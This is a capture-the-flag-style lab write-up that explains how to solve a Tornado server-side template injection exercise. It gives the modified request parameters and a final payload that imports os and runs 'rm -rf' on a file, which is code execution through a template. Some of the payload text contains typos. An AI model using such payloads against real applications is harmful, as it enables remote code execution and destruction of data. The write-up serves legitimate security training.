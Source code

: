 # Lab: Basic server-side template injection (code context)

## Description
```
This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template.
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
You can access your own account with following credentials:
    username = wiener
    password = peter
Tip: Take a closer look at the "preferred name" functionality.
```

## Solution
* First we login with the credentials provided to us.
* Then we visit the "My Account" Section.
* As it is given in the description, to view the preferred name functionality
* Intercept the request and we see the request params as ```blog-post-author-display=user.name&csrf=R5e6WncDa4SdU0voYFANDmILp95PqGE4```
* We change it to the following (with escaping braces) ```blog-post-author-display=user.name}}{{7*7}}&csrf=R5e6WncDa4SdU0voYFANDmILp95PqGE4```
* After we submit this request, we visit any blog and post a comment, and we can see that in our comment we have the name displayed as "Weiner49". This
  means we have SSTI successfully.
* Now to remove the morale.txt file, we use the python os module (As the Template engine uses python in it's backend).
* Python code to remove a file
* ``` import os; os.sytem('rm -rf /home/carlos/morale.txt')```
* We tweak it to fit into torando's syntax and get the following final payload. (Url encode this before sending)
* ```blog-post-author-display=user.name}}{%import os%}{{os.system("rm -rf /home/carlos/morale.txt"}}&csrf=R5e6WncDa4SdU0voYFANDmILp95PqGE4```
* After this is submitted, visit the blog on which you commented, and it will execute, hence compeleting the lab.
